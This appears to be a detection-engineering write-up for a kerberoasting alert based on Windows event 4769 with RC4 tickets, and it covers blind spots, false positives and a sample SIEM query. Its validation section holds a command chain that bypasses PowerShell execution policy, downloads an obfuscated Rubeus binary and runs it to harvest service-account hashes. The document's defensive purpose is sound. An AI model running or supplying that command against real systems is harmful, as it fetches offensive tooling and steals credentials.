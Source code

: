 # Detection Name

kerberoasting_abuse.yaral

# Goal
Detect attempts by a threat actor to enumerate SPN's and harvest weak passwords from service accounts via kerberoasting.

# Categorization
These attempts are categorized as [Credential Access / Steal or Forge Kerberos Tickets / Kerberoasting](https://attack.mitre.org/techniques/T1558/003/).

The data source is [Active Directory](https://attack.mitre.org/datasources/DS0026/).

# Detection Functionality
The detection will work as follows:

* Record Windows Event logs
* Look for Windows EventID 4769
* Identify where the Encryption Type is 0x17
* Suppress known-good service accounts
  * Accounts ending with $
  * Known source users that run tools that enumerate SPN's
* Fire alert when the above conditions are met

# Blind Spots and Assumptions

This strategy relies on the following assumptions: 
* Windows Event Logs are logging properly without missing telemetry
* Logs are flowing to the SIEM in a reasonable timeframe
* SIEM is parsing the fields properly to map the detection logic

A blind spot will occur if any of the assumptions are violated. For instance, the following would not trip the alert: 
* Other Encryption Types (such as 0x12) being hit instead of 0x17 (RC4)
* SPN's are cached and the alert doesn't fire due to cached responses

# False Positives
There are several instances where false positives for this ADS could occur:

* Users explicitly performing SPN enumeration as part of SQL jobs
* Automated internal red-team testing

Most false positives can be tracked back to DBA's running scripts that enumerate SPN's and red team activity.

# Validation
Validation can occur by utilize Rubeus.exe to enumerate SPN's and harvest weak RC4 hashes.
```
%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Set-ExecutionPolicy Bypass -scope Process -Force; %SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -Uri "https://github.com/Flangvik/ObfuscatedSharpCollection/raw/main/NetFramework_4.7_Any/Rubeus.exe._obf.exe" -OutFile "C:\ProgramData\Rubeus.exe"; C:\Windows\System32\cmd.exe /C C:\ProgramData\Rubeus.exe kerberoast
```
# Relevance
Although many environments no longer have weak RC4 hashes to easily get roasted, it is still a good detection to have to cover this attack vector. It is one of the easiest ways to compromise an elevated privileged account and allow an attacker to pivot to domain compromise.

# Priority
If this detection can be tuned properly, the severity should be a Critical with a 100 risk score.

# Search Example
This is a base UDM search to start with, finer tuning is required to move this into a detection and hone in the proper encryption types.
```
metadata.vendor_name = "Microsoft" AND metadata.product_event_type = "4769" AND principal.hostname = "win-dc.hack.domain" 
(target.resource.name = "0x40800000" OR target.resource.name = "0x40810000")
(target.resource.resource_subtype = "0x12" OR target.resource.resource_subtype = "0x17")
```